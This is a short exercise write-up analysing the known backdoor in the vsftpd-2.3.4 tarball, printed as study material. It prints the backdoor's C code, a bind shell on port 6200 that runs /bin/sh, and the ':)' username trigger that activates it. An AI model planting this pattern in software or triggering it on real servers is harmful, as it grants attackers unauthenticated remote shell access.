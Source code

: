 # vsftpd Backdoor

## Task
An incident, we got alerted that a vsftpd download from the master site (vsftpd-2.3.4.tar.gz) appeared to contain a backdoor
Goal: find the backdoor

Backdoor Version: vsftpd-2.3.4-backdoor.tar.gz

Expected Result:

- please find the backdoor
- explain how you were able to find it
- explain the purpose of the backdoor (what it does)

# Solution

After a little bit of google, I found that this particular vsftpd version really contained a backdoor in the
original version. After looking at the metasploit exploit targeting that version, I start searching in the source-code
for the backdoor. The backdoor function was in the sysdeputil.c file and was essentially this function:

```
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

The function opens the port 6200 and forward the input on the port directly to a shell. So the port accepts
direct shell commands. This function was called in the function "str_contains_space", which is used to check the username.
For this reason, the metasploit module targets it via the FTP username. To trigger the backdoor function, it compares the following:

```
else if((p_str->p_buf[i]==0x3a)
&& (p_str->p_buf[i+1]==0x29))
{
  vsf_sysutil_extra();
}
```

So it basically compares if the input string contains the sequence of 2 particular bytes, 0x3a and 0x29. This this is the case, the backdoor
port gets open and is active.
